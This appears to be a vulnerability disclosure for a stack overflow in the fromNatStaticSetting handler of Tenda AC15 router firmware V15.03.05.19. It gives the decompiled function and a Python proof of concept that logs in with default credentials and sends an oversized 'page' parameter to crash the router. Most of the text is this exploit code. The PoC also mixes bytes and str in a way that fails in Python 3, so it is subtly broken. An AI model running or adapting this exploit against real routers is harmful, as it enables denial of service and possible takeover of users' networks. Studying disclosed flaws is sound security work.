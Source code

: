 ## Tenda AC15 stack overflow vulnerability

### * Version

V15.03.05.19 (US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2680.html](https://www.tenda.com.cn/download/detail-2680.html)




### * Vulnerability Detail

In function fromNatStaticSetting, the content obtained by the program from the parameter "page" is passed to local_1c, 
and then the local_1c is directly copied into the acStack288 stack through the sprintf function. 
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void fromNatStaticSetting(undefined4 param_1)

{
  int iVar1;
  char acStack288 [256];
  undefined4 local_20;
  undefined4 local_1c;
  char *local_18;
  undefined4 local_14;
  
  local_14 = FUN_0002ba8c(param_1,"entrys",&DAT_000e58d0);
  local_18 = (char *)FUN_0002ba8c(param_1,"op",&DAT_000e58d8);
  FUN_0004ec58("adv.snat",local_14,0x7e);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000e58f0);
  sprintf(acStack288,"nat_static.asp?page=%s",local_1c);  //here is overflow
  iVar1 = strncmp(local_18,"add",3);
  if ((iVar1 != 0) && (iVar1 = strncmp(local_18,"edit",4), iVar1 != 0)) {
    local_20 = FUN_0002ba8c(param_1,"isoncheck",&DAT_000e5924);
    SetValue("adv.snat.en",local_20);
  }
  iVar1 = CommitCfm();
  if (iVar1 != 0) {
    PostMsgToNetctrl(0x22);
  }
  FUN_0002be4c(param_1,acStack288);
  return;
}

```

### * POC
```python
import requests


cmd  = b'entrys=' + b'A' * 100 + '&op='
cmd += b'A'* 0x100 + '&page=' + 'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/NatStaticSetting/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
